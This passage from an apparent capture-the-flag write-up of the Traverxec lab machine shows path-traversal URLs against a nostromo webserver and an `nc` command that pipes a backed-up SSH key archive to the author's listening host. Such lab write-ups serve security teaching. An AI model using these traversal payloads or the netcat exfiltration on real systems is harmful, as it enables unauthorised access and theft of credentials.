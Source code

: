 So `/homedirs /home` points `nostromo` to the home directories, and then in a
users directory, the webroot will be `public_www`. So
`http://10.10.10.165/~david` will be `/home/david/public_www`.

My first thought was to access this via the browser:

![image-20191122134727465](https://0xdfimages.gitlab.io/img/image-20191122134727465.png)

I could even use the traversal vulnerability to explore in david’s home
directory. Tried a bunch of stuff:

URL | Result | Notes  
---|---|---  
`http://10.10.10.165/~david/.%0d./` | Empty Page | Likely exists, no permissions to read  
`http://10.10.10.165/~david/.%0D./.ssh/` | Empty | Likely exists, no permissions to read  
`http://10.10.10.165/~david/.%0D./0xdf/` | 404 Not Found | Doesn’t exist (as expected)  
`http://10.10.10.165/~david/.%0D./user.txt` | 403 Forbidden | Exists, but no permissions to read  
`http://10.10.10.165/~david/index.html` | Image Above | I have permissions to read in this dir  
  
The last test was where it occurred to me that www-data must be able read in
this directory, `/home/david/public_www`. So I went back to my shell, and not
only can I get into the directory, but there’s a folder there:

    
    
    www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
    www-data@traverxec:/home/david/public_www$ ls            
    index.html  protected-file-area 
    

Inside, there’s backup keys:

    
    
    www-data@traverxec:/home/david/public_www$ cd protected-file-area/
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls
    backup-ssh-identity-files.tgz   
    

I’ll send that through `nc` back to my box. With `nc` listening on my host,
I’ll send it back:

    
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.6 443  
    

On my host:

    
    
    root@kali# nc -lnvp 443 > backup-identity-files.tgz.b64 
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53004.
    

I could also grab the file over the webserver. If I `curl` the url, I get 401
unauthorized:

